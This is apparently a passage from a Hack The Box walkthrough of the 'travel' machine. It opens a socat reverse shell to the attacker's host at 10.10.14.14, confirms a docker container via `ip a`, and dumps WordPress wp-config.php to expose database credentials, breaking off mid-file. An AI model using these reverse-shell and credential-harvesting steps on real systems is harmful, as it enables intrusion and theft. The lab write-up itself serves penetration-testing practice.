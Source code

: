 Luckily `socat` is so we will get a reverse shell using socat. We run this command on our shell:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.14:3333
```
And then on our host we get a connection back:
```
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/travel]
└──╼ $ socat file:`tty`,raw,echo=0 tcp-listen:3333
www-data@blog:/$
```
Cool so now we have an upgraded shell so we can begin our enumeration of the host.
We assume this is a docker container but we confirm our suspicions by running `ip a`:
```bash
www-data@blog:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
16: eth0@if17: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:1e:00:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.30.0.10/24 brd 172.30.0.255 scope global eth0
       valid_lft forever preferred_lft forever
```
The inet address should be 10.10.10.189 so we know its a docker as it doesnt have that ip address.

After some very basic enumeration we find a file in `/var/www/html/wp-config.php` which contains mysql database credentials.
## Mysql database extraction
```bash
www-data@blog:/var/www/html$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wp' );

/** MySQL database username */
define( 'DB_USER', 'wp' );

/** MySQL database password */
define( 'DB_PASSWORD', 'fiFtDDV9LYe8Ti' );

/** MySQL hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database Charset to use in creating database tables. */
```